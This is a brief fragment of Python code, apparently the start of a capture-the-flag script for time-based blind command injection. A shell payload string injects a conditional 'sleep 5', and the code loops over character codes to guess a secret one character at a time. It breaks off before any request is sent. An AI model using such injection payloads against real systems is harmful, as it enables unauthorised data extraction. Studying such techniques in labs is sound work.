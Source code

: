 ```python
    index=""
    post4=':1}"x == "$b"x ]; then sleep 5 ;fi;'
    count=0
    result=''
    while 1:
        alpha=''
        for i in range(0,127):
            index=str(count)
            gue=chr(i)
            print('gue 是:'+gue)
